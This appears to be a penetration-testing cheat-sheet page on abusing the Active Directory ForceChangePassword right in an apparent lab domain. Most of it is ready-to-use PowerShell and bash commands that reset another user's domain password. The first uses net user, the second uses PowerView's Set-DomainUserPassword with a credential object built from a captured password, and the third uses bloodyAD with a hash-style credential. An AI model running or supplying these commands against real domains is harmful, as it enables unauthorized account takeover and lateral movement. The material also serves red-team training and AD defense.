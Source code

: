 # ForceChangePassword

## <mark style="color:yellow;">Change the user's password with net</mark>

<mark style="color:orange;">**Full Privileges Required!**</mark>

```powershell
net user songbird S4MUR41 /domain
```

## <mark style="color:yellow;">Creating PSCredentials object</mark>

If we do not run PowerShell as other user, we may put their creds to secure PS object so we can impersonate him.&#x20;

1. With first command we are converting a plaintext password to SecureString (which protecting creds from memory reading).
2. With second command we are putting that SecureString into PSCredentials object for further use.

```powershell
PS C:\> $SecPassword = ConvertTo-SecureString 'h4ck4allth3th1ngs' -AsPlainText -Force
PS C:\> $Cred = New-Object System.Management.Automation.PSCredential('MILITECH\sreed', $SecPassword)
```

## <mark style="color:yellow;">Changing the user's password with PowerView</mark>

Here are are making a SecureString for new **songbird's** password and changing it using **sreed's** credentials in <mark style="color:green;">`-Credential $Cred`</mark>. <mark style="color:orange;">**PowerView Required!**</mark>

```powershell
PS C:\> $songbirdPassword = ConvertTo-SecureString 'S4MUR41' -AsPlainText -Force
PS C:> Set-DomainUserPassword -Identity songbird -AccountPassword $songbirdPassword -Credential $Cred -Verbose
```

## <mark style="color:yellow;">BloodyAD</mark>

If you have right to change someone's password, you can use **BloodyAD** Tool [**\[LINK\]**](https://github.com/CravateRouge/bloodyAD)

```bash
bloodyAD --host 13.13.13.13 -d militech.local -u 's.reed' -p :4bfkohjaosdoi234hjhaf set password 'songbird' 'P@ssword123'
```

> Here we changing songbird's password by using s.reed credentials.
